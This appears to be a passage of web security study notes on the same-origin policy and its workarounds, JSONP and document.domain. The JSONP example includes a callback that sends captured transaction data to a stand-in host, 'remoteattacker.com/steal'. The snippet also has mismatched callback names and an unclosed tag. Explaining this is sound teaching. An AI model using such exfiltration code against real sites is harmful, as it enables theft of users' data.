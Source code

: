 - Sometimes policy is too **narrow**: Difficult to get `https://login.example.org` and `https://mypage.example.org` to exchange data

- Sometimes policy is too **broad**: No way to isolate `https://example.org/users/1` from `https://example.org/users/admin`

- Policy is not enforced for certain web features

## Workaround For SOP

Methods to work around SOP restrictions in ajax

- `JSONP`: (JSON with Padding) provides work-around for this SOP problem:

  - Run JavaScript code inside HTML file with `<script>` tag
  - Script tag can reference URL that doesn't have a js extension
  - Code inside JavaScript file has access to everything that is in scope
  - Padded JSON response is surrounded by JavaScript function
  - No official spec for JSONP. It's a hack

    ```html
    <!-- URL -->
    <script
      src="http://internal.api.dev/api/transactions/jsonp?callback=accntResult"
    >

      <!-- Callback function -->
      <script>
          function accountResult(data) {
          // Send code to remote attacker
          fetch(
              "https://remoteattacker.com/steal?" +
              new URLSearchParams({
                  dump: data,
              })
          );
          }
    </script>

    <!-- Data -->
    accountResult({'transactions': [{'transactionId': 378954, 'amount': ...)
    ```

- `document.domain`:

  - Need a way around SOP to allow two different origins to communicate
  - Two cooperating sites can agree that for the purpose of SOP checks, they want to be considered equivalent
  - Sites must share a common top-level domain
  - _Example:_ both `https://login.example.org` and `https://mypage.example.org` may perform the following assignment:

    ```javascript
    document.domain = "example.org";
    ```
